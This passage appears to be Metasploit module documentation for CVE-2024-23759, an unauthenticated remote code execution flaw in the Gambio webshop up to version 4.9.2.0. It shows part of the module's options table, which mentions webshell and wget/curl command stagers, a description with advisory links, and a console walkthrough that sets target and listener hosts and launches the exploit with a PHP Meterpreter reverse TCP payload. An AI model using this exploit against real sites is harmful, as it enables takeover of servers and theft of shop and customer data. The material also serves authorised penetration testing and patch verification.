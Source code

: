 ```msf
  WEBSHELL                    no        Set webshell name without extension. Name will be randomly generated if
                                         left unset.


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address
                                       on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)

Payload information:

Description:
  A Remote Code Execution vulnerability in Gambio online webshop version 4.9.2.0 and lower
  allows remote attackers to run arbitrary commands via unauthenticated HTTP POST request.
  The identified vulnerability within Gambio pertains to an insecure deserialization flaw,
  which ultimately allows an attacker to execute remote code on affected systems.
  The insecure deserialization vulnerability in Gambio poses a significant risk to affected systems.
  As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
  potentially resulting in complete system compromise, data exfiltration, or unauthorized access
  to sensitive information.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-23759
  https://attackerkb.com/topics/cxCsICfcDY/cve-2024-23759
  https://herolab.usd.de/en/security-advisories/usd-2023-0046/


View the full module info with the info -d command.
```

### Target 0 - PHP native `php/meterpreter/reverse_tcp` session
```msf
msf6 > use exploits/multi/http/gambio_unauth_rce_cve_2024_23759
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set rhosts 192.168.201.25
rhosts => 192.168.201.25
msf6 exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf6 exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set rport 80
rport => 80
msf6 exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
```